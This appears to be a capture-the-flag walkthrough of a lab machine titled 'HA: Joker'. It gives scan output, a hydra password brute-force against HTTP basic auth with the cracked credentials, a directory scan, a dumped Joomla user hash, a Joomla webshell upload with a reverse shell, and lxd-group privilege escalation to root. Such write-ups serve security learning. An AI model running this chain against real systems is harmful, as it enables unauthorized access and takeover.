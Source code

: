 # Joke (10.10.39.23)

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL89x6yGLD8uQ9HgFK1nvBGpjT6KJXIwZZ56/pjgdRK/dOSpvl0ckMaa68V9bLHvn0Oerh2oa4Q5yCnwddrQnm7JHJ4gNAM+lg+ML7+cIULAHqXFKPpPAjvEWJ7T6+NRrLc9q8EixBsbEPuNer4tGGyUJXg6GpjWL5jZ79TwZ80ANcYPVGPZbrcCfx5yR/1KBTcpEdUsounHjpnpDS/i+2rJ3ua8IPUrqcY3GzlDcvF7d/+oO9GxQ0wjpy1po6lDJ/LytU6IPFZ1Gn/xpRsOxw0N35S7fDuhn69XlXj8xiDDbTlOhD4sNxckX0veXKpo6ynQh5t3yM5CxAQdqRKgFF
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOzF9YUxQxzgUVsmwq9ZtROK9XiPOB0quHBIwbMQPScfnLbF3/Fws+Ffm/l0NV7aIua0W7FLGP3U4cxZEDFIzfQ=
|   256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPLWfYB8/GSsvhS7b9c6hpXJCO6p1RvLsv4RJMvN4B3r
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: Joker
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8080/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

- 2 HTTP server
- no containers
- Head auth

# HTTP 80

- no robots
- a lot of comments
- found an author: joker
- no hidden dirs

# HTTP 8080

- we need basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.39.23 http-get

[8080][http-get] host: 10.10.39.23   login: joker   password: hannah
```
- after login we find joomla CMS
- via bruteforcing we found /backup:
```bash
gobuster dir -u http://10.10.39.23:8080/ -U joker -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

- the zip is pass protected, after cracking 'hannah'
- we have the entire backend with the DB:
```sql
LOCK TABLES `cc1gr_users` WRITE;
/*!40000 ALTER TABLE `cc1gr_users` DISABLE KEYS */;
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
UNLOCK TABLES;
```

- password of admin user in joomla is: 'abcd1234'
- we can upload webshell from this repo: https://github.com/p0dalirius/Joomla-webshell-plugin/tree/master
- revshell with the webshell

# www-data (ubuntu)

- only joker user
- user www-data is in lxc group:
```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

- following this blogpost we are root: https://amanisher.medium.com/lxd-privilege-escalation-in-linux-lxd-group-ec7cafe7af63
